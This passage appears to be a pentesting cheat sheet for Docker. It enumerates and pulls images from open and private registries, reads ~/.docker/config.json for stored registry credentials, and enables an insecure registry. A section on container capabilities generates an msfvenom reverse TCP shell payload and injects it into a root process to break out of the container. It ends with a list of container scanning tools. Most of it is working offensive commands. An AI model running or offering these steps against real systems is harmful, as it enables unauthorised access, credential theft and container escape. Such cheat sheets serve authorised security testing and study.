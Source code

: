 ```
# Check if docker registry is up and running
curl -s http://localhost:5000/v2/_catalog | jq .
# Get tags of docker image
curl -s http://localhost:5000/v2/devcode/tags/list | jq .
# Download image locally
docker pull localhost:5000/devcode:latest
# Access container to review it
docker run --rm -it localhost:5000/devcode:latest sh
# Once mounted we can check the docker daemon config to see user and registry
docker system info
# And we can check the registries configured for the creds
cat ~/.docker/config.json

# Private registries
# Check catalog
curl 10.11.1.111:5000/v2/_catalog
# Get image tags
curl 10.11.1.111:5000/v2/privatecode/tags/list
# Add the insecure-registry tag to download docker image
vi /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// --insecure-registry 10.11.1.111:5000
# Restart docker service
sudo systemctl daemon-reload
sudo service docker restart
# Download the image
docker pull 10.11.1.111:5000/privatecode:whatevertag
# Enter inside container and enumerate
docker run --rm -it 10.11.1.111:5000/privatecode:golang-developer-team sh
cd /app
ls -la
```

### Attack container capabilities

```
# Host with sys_ptrace capability enabled with host PID space. So it runs top command of host
# You're already inside container
# Check capabilities
capsh --print
# Upload reverse shell and linux-injector
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f raw -o payload.bin
# Check any process running as root
ps aux | grep root
./injector PID_RUNNING_AS_ROOT payload.bin
```

### Tools

```
# https://github.com/anchore/grype
# https://github.com/aquasecurity/trivy
# https://github.com/cr0hn/dockerscan
# https://github.com/P3GLEG/Whaler
# https://github.com/RhinoSecurityLabs/ccat
https://github.com/stealthcopter/deepce
https://github.com/anchore/grype
```
